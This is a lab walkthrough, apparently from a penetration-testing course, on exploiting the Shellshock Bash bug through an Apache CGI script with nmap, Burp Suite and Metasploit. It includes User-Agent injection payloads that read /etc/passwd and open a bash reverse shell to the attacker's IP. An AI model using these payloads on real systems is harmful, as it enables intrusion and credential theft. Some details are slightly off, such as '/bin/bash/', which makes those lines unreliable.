 # Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)

- Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote
access to the target system via a reverse shell.

- The Shellshock vulnerability was discovered by Stéphane Chazelas on the 12th of September 2014 and was made public on the 24th of September 2014.

- Bash is a *Nix shell that is part of the GNU project and is the default shell for most Linux distributions.

- The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: () {:;};.

- This vulnerability only affects Linux as Windows does not use utilize Bash as it is not a *Nix based operating system.

- In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.

- CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.

## Shellshock Exploitation

- In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.

- In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.

- Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash.

- This vulnerability can be exploited both manually by using a web proxy and automatically with the use of an MSF exploit module.

## Laboratory

In this laboratory you won't be provided with the target IP address, but you can take your own IP address in the subnet and use the machine in the next ip address. For example x.x.x.2 is your machine and x.x.x.3 is the target.

- Start by performing an nmap scan. If you find a web server, navigate to it using the browser to see the page. You should see a website under construction. As it is a static web page, it shouldn't present any dynamic characteristics. However, the site should present a counter below the "under construction" phrase. This sort of dynamic behavior is achieved by using CGI scripts in Apache. That could mean the server is vulnerable. This can be further confirmed by checking the source of the page and see that the JS script on the website is calling a cgi script.

- Now we need to confirm if the web server is vulnerable to the Shellshock attack. This can be done by using an nmap script called `http-shellshock` with arguments `"http-shellshock.uri=/gettime.cgi"`: `nmap x.x.x.x --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"`. It should return relevant information about the target vulnerability and if it is indeed vulnerable to the shellshock attack.

### Exploiting the vulnerability manually

- First we will go to the firefox extensions and look for the FoxyProxy extension that should be already configured. With that extension we will enable the Burp Suite proxy and then we will start the Burp Suite from our kali linux. From there we will start a temporary project to intercept all the traffic comming from the static website.

**Note**: To intercept traffic using the burp proxy, remember to set the intercept option to on.

- Reload the page and intercept the traffic of the .cgi file get request. Then right click on the request and select send to the repeater, remove the User-Agent string and introduce the special characters `() { :; };` and any command you want after in the User-Agent header, for example: `() { :; }; echo; echo; /bin/bash/ -c 'cat /etc/passwd'` and click Send. On the right side of the windows you should see the output of teh command.

- We can run a reverse shell directly using the shellshock exploit. First we need to run with netcat a listening port by running `nc -nvlp 1234`, notice we are listening on port 1234.

- We can send a request using the same User-Agent string and changing the command at the end to start a reverse shell like this: `() { :; }; echo; echo; /bin/bash/ -c 'bash -i>&/dev/tcp/x.x.x.x/1234 0>&1'` where x.x.x.x is your ip address.

**Note**: After successfully connecting, try enumerating some things. For example: `whoami`, `cat /etc/*issue`, `uname -a`, etc.

### Exploiting the vulnerability with msfconsole

- Start an msfconsole and search for shellshock. You will find an auxiliary module called `auxiliary/scanner/http/apache_mod_cgi_bash_env` to see if the target is vulnerable and an exploit module called `exploit/multi/http/apache_mod_cgi_bash_env_exec`.

- Use the `exploit/multi/http/apache_mod_cgi_bash_env_exec` and check the options. At this point you should only need to set the RHOSTS that should be the target ip address and the TARGETURI that is the path to the cgi file.
